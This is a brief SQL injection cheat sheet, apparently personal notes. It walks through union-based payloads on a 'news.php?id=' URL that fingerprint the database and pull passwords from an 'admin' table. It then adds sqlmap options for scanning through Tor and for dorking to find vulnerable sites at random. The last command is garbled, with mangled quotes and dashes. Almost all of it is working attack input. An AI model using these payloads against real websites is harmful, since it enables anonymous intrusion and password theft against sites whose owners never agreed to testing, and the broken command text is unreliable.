 				Identifying SQL Injection
-- end of url put a ' (quote)							
`http://ip/news.php?id=5'`
-- error means website is vulnerable

				Finding Number of columns
-- Increment until you get a error 				
`http://ip/news.php?id=5 order by 1/*`

				Checking Union Fuction
-- union all Number of columns found
-- `http://ip/news.php?id=5 union all select 1,2,3/*`

				Check MYSQL version
-- `http://$ip/news.php?id=5 union all select 1,@@version,3/*`

				Getting Column and Table Names
-- Table Names
-- `http://ip/news.php?id=5 union all select 1,2,3 from admin/*`
-- Column Names
-- `http://ip/news.php?id=5 union all select 1,password,3 from admin/*`
				SQLMap
-- Scan through Tor
	--tor-type=SOCKS5
-- List Databases
	--dbs


-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n